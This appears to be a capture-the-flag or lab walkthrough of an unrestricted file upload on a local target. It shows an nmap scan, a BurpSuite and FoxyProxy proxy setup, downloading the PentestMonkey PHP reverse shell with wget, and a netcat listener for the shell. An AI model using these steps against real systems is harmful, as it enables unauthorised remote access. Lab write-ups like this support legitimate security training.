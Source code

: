 ``` sudo nmap -p- --open 172.17.0.2 --min-rate 5000 -vvv -oN escaneo ```
![alt text](images/image-5.png)


![alt text](images/image-6.png)


Once this scan is complete, let's test the functionality of this file upload field. To do this, the first thing we'll do is prepare our beloved BurpSuite, which provides very interesting functions for web service audits. This makes it an indispensable tool for any pentester.


![alt text](images/image-7.png)


We will access the proxy tab to be able to intercept the request once we upload a file. Before we can do this, we will have to make some configurations both in BurpSuite and in our browser. For the browser, we will use an extension called FoxyProxy, where we will indicate a port that will be our proxy and which we will also have to indicate in the BurpSuite configuration for everything to work correctly.


![alt text](images/image-8.png)


![alt text](images/image-9.png)


# Exploitation

With these configurations done, let's download a reverse shell in PHP to try to upload it to the target website. Personally, I recommend the reverse shell from [PentestMonkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).
We will download it and have to change a couple of options with any text editor like nano, vim, or mousepad.

``` wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php  ```


![alt text](images/image-10.png)

We will need to edit the IP and PORT fields, specifying our IP address and a port where we will listen to receive the shell if our malicious upload works correctly. To set up a listener, we will use the following command:

``` nc -lvnp $YOURPORT ```


![alt text](images/image-11.png)


With all this set up, now is the moment. Before intercepting our request with Burp, we will try to upload our shell directly in the file upload field.


![alt text](images/image-12.png)


![alt text](images/image-13.png)


Wow, it looks like it allowed us to upload our shell directly, so in this case, we won't need to use BurpSuite. Anyway, we've seen a quick tutorial on how to set it up, I assure you we will use it, but we'll leave it for future episodes xD
```